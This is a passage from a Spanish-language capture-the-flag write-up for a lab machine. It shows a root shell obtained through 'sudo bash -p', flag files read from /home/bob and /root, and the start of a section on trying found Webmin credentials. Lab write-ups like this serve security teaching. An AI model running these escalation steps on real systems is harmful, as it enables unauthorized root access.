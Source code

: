 Entonces, solamente tenemos que ejecutar la **Bash** con privilegios y seremos **Root**:
```bash
www-data@debian:/var/www/html$ sudo bash -p
root@debian:/var/www/html# whoami
root
```
Podríamos dar por terminada la máquina aquí, pero hay un par de escaladas que podemos hacer.

Si no deseas continuar con eso, solamente tienes que buscar las flag:
```bash
root@debian:/var/www/html# ls /home/bob/
user.txt
root@debian:/var/www/html# cat /home/bob/user.txt
...
root@debian:/var/www/html# cd /root
root@debian:~# ls
root.txt  webmin-1.920	webmin-1.920.tar.gz
root@debian:~# cat root.txt
...
```
Listo.

<br>

<h2 id="Webmin">Probando Credenciales de Webmin y Escalando Privilegios con Shell Activa de Root</h2>

Probemos las credenciales que encontramos:

<p align="center">
<img src="/assets/images/THL-writeup-campanaFeliz/Captura17.png">
</p>

Ahí podemos ver la versión del **Webmin**.
